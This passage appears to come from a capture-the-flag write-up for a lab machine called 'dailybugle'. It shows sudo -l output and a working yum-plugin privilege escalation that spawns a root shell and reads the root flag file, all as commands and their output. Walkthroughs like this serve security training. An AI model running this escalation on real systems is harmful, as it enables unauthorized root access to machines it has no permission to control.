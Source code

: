 ```bash
    [jjameson@dailybugle tmp]$ sudo -l
    Matching Defaults entries for jjameson on dailybugle:
        !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
        env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
        USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
        LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
        env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
        secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

    User jjameson may run the following commands on dailybugle:
        (ALL) NOPASSWD: /usr/bin/yum
```

- Using the [exploit](https://gtfobins.github.io/gtfobins/yum/), execute the function and tada we have now root shell!

```bash

    [jjameson@dailybugle tmp]$ TF=$(mktemp -d)
    [jjameson@dailybugle tmp]$ cat >$TF/x<<EOF
    > [main]
    > plugins=1
    > pluginpath=$TF
    > pluginconfpath=$TF
    > EOF
    [jjameson@dailybugle tmp]$
    [jjameson@dailybugle tmp]$ cat >$TF/y.conf<<EOF
    > [main]
    > enabled=1
    > EOF
    [jjameson@dailybugle tmp]$
    [jjameson@dailybugle tmp]$ cat >$TF/y.py<<EOF
    > import os
    > import yum
    > from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
    > requires_api_version='2.1'
    > def init_hook(conduit):
    >   os.execl('/bin/sh','/bin/sh')
    > EOF
    [jjameson@dailybugle tmp]$ sudo yum -c $TF/x --enableplugin=y
    Loaded plugins: y
    No plugin match for: y
    sh-4.2# id
    uid=0(root) gid=0(root) groups=0(root)
    sh-4.2# cat /root/root.txt
    eec3d53292b1821868266858d7fa6f79
```

